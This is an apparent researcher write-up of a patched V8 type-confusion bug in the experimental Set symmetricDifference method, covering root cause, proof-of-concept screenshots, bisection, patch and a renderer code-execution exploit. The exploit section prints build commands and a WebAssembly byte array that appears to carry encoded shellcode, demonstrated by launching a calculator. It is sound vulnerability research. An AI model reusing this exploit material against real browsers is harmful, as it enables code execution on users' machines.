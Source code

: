 # Issue 41483297 (Type Confusion in V8)

One day, I noticed that [Issue 40069798](https://issues.chromium.org/issues/40069798) which was a type confusion bug in V8 was disclosed. This bug was awarded $15,000 for renderer RCE, but no CVE number was assigned because it was living in experimental feature and only could be triggered under `--harmony` or `--harmony-set-methods` flag in V8. While studying this bug, I tried fuzzing targeting Harmony Set methods in which it was living, with a light heart. Not long after, I unexpectedly got a same `DCHECK` failing crash, and could successfully achieve RCE in the same way. In this post, I will analyze and exploit my bug, [Issue 41483297](https://issues.chromium.org/issues/41483297).

Before reading, I recommend you to read [my post for Issue 40069798](https://aaronsjcho.github.io/Issue-40069798/) first, because I will omit many overlapping contents in here.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [1976a3f375fb686a12d0577b0a01b164d8481414](https://chromium.googlesource.com/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414) (Dec 12, 2023)

Run [`setup.zsh`](./setup.zsh) in your working directory.

## Analysis

### Root cause

[`Set.prototype.symmetricDifference()`](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Set/symmetricDifference) method is handled by [`SetPrototypeSymmetricDifference()`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=8). It calls [`GetKeysIterator()`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/collections.tq;l=311) to get [`keysIter`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=25) which is iterator of `other`, after getting [`table`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=22) of `receiver`. `GetKeysIterator()` internally [calls](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/collections.tq;l=315) [`keys()`](https://developer.mozilla.org/docs/Web/JavaScript/Reference/Global_Objects/Set/keys) method of `other`. We can let arbitrary JavaScript code be executed at this point, by redefining `keys()` method of `other`. If we make table of `receiver` to be grown or shrunk by adding or deleting element, new table is allocated and its address is stored in the size field of old table. However, corrupted old `table` is used as it is after `GetKeysIterator()` is returned. It is [set to table of  new `Set`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=122) which is returned to us, going through [`resultSetData`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=29), [`resultAndNumberOfElements.setData`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=32), and [`shrunk`](https://source.chromium.org/chromium/v8/v8/+/1976a3f375fb686a12d0577b0a01b164d8481414:src/builtins/set-symmetric-difference.tq;l=115). This can cause type confusion.

### Proof of concept

[`poc.js`](./poc.js)

![](img/1.png)

![](img/2.png)

![](img/3.png)

![](img/4.png)

We can see that the address of table of `a` (green box) is stored in the size field of table of `s` (blue box). Thus, we can get an `OrderedHashSet` object which is table of `a`, by reading `s.size`.

![](img/5.png)

### Bisection

> [[set-methods]Getting other before receiver's table](https://chromium.googlesource.com/v8/v8/+/9e0005d745067c5dab681d9c95483bc71c317e2d) (Aug 18, 2023)
>
> This CL fix the issue of clearing receiver in case of having user arbitraty code in the `other`.

The bug has been existing since `symmetricDifference()` method was added, but was exposed when the previous bug was patched in the commit above.

### Patch

> [[set-methods]Get receiver's table after other's keys()](https://chromium.googlesource.com/v8/v8/+/4d0ea4aac11c66481e0bf6c2b1e9308a1b442aff) (Dec 12, 2023)
>
> This CL fixes the issue of clearing receiver's table in case of having user's arbitrary code in other's keys().

## Exploitation

[`shellcode.py`](./shellcode.py) [`pwn.wat`](./pwn.wat) [`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/6.png)

## References

- [Security: Type confusion in Harmony Set methods (Leads to RCE) - Chromium Issues](https://issues.chromium.org/issues/41483297)
